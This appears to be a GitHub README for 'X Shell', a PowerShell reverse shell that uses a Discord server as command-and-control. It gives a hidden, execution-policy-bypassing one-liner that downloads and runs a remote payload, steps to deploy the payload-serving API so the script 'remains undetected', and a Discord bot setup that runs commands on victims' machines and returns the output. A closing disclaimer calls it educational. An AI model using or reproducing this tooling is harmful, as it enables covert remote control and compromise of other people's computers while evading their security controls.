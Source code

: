 ![banner](/src/banner.png)
# X Shell

X Shell is a PowerShell-based reverse shell that uses a Discord server as its command-and-control (C2) infrastructure. It dynamically creates a dedicated Discord channel for each user who executes the script, allowing for organized command execution and response tracking.

## How It Works
Revshell X consists of three main components:

### 1. **PowerShell Dropper**
Windows 11 limits certain execution options, such as `-windowStyle hidden` when run from the Run dialog (`Win + R`). To bypass this, Revshell X uses a lightweight **dropper**. This dropper retrieves the actual PowerShell script from a remote API and executes it.

To deploy the reverse shell on a target machine, simply execute the following PowerShell command:
```powershell
powershell -W Hidden -Exec Bypass -c "$r = iwr https://xyz.vercel.app/ -H @{'Authorization'='Bearer xyzxyz'}; iex $r.Content"
```
This command downloads and executes the dropper, which in turn fetches and runs the main script.

### 2. **Backend API**
The backend API authenticates requests and responds with the full PowerShell script when properly requested. This allows the script to remain undetected on the target machine until execution. The API is responsible for:
- Serving the **dropper script** upon request.
- Returning the **full reverse shell script** to authenticated requests.

#### **Deploying the API**
The full API code is located under the `/API/` directory. To deploy it, follow these steps:
1. **Create a private GitHub repository** and upload all files from the `/API/` directory.
2. **Deploy to Vercel** by linking your GitHub repository to [Vercel](https://vercel.com/).
3. **Update `index.js` in the API**:
    - Modify **lines 27 and 28** to set authentication tokens.
    - Modify **lines 30 and 35** to return the correct PowerShell script.
4. **Deploy the API** and note the generated URL.

### 3. **Discord C2 Server**
The core reverse shell logic uses a **Discord bot** to communicate with a designated **Discord server**. When the script runs, it:
- Creates a new **private channel** in a predefined category.
- Reads messages from the channel for incoming commands.
- Executes the received PowerShell commands on the target machine.
- Returns command output back to the channel.

## Requirements
To set up Revshell X, you will need:
- A **Discord server**
- A **Discord bot** with appropriate permissions
- The **Channel ID** and **Category ID** where channels will be created
- The **API URL** for the dropper

## Installation & Setup
1. **Create a Discord bot**
    - Go to the [Discord Developer Portal](https://discord.com/developers/applications)
    - Create a new bot and get its **token**
    - Assign necessary permissions (Manage Channels, Read Messages, Send Messages, etc.)

2. **Set up the API**
    - Deploy the API using the steps mentioned above.
    - Ensure the API logs or restricts access securely.

3. **Modify the script with your bot details**
    - Update `$botToken`, `$serverID`, and `$categoryID` in the script.

4. **Deploy the dropper**
    - Use the provided PowerShell one-liner to execute the dropper.

## Discord Server Template
For convenience, a preconfigured **Discord server template** is provided, which includes:
- A category for dynamically created channels
- Proper bot permissions
- Logging channels (optional)

## Disclaimer
This tool is intended for **educational and authorized testing purposes only**. Unauthorized use of this software is illegal and may result in criminal charges. Use responsibly.

